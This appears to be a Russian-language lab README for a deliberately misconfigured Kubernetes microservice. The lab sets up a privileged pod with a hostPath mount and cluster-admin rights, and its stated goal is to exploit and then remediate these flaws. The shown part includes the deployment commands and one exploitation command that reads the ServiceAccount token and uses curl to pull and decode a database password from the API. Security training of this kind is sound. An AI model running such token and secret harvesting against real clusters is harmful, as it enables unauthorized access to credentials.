 ## Сценарий C: Подозрительный микросервис в Kubernetes

Вы — инженер безопасности в FinTech-компании, где в namespace finance запущен новый микросервис «commission», отвечающий за вычисление комиссий. В спешке его развёртывали с минимальными проверками:

• контейнер запущен с privileged: true и смонтирован hostPath "/" → атака на файловую систему хоста
• default ServiceAccount в finance получил ClusterRoleBinding → cluster-admin
• сгенерирован Kubernetes Secret db-secret с паролем БД, но нет контроля доступа
• отсутствуют NetworkPolicy → сервис commission может беспрепятственно ходить к любым другим подам
• нет кастомных Role/RoleBinding → default SA имеет все права

Ваша задача — воспроизвести полный «подозрительный» сценарий:

- Перейти внутрь commission-пода, прочитать любой секрет из API
- Сделать побег через hostPath и privileged
- Получить доступ к соседнему customer-сервису (lateral movement)
- Закрепить факт — прочитать конфиденциальные данные

А затем устранить все уязвимости:

• убрать privileged и hostPath
• назначить default SA ограниченную Role → только чтение секретов в namespace finance
• ввести NetworkPolicy → запрещающую несанкционированный трафик
• убедиться, что побег и чтение посторонних pod недоступны

## Запуск
- Запуск контейнерной среды:
```sh
kubectl apply -f namespace.yaml
kubectl apply -f secret.yaml
kubectl apply -f customer-deployment.yaml
kubectl apply -f customer-service.yaml
kubectl apply -f commission-deployment-vuln.yaml
kubectl apply -f commission-service.yaml
kubectl apply -f commission-rolebinding-vuln.yaml
```
- Убедиться, что все поды в состоянии Running:
```sh
kubectl get pods -n finance
```

## Эксплуатация уязвимостей
- Пробуем прочитать секрет через API:
```sh
# Получить ID пода
POD=$(kubectl get pod -n finance -l app=commission -o name)

# Зайти в оболочку пода
kubectl exec -n finance -it $POD -- sh

# Получить токен и найти возможные пароли в k8s secret
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);curl -sSk -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/finance/secrets/db-secret -k | jq -r '.data.password' | base64 -d
```
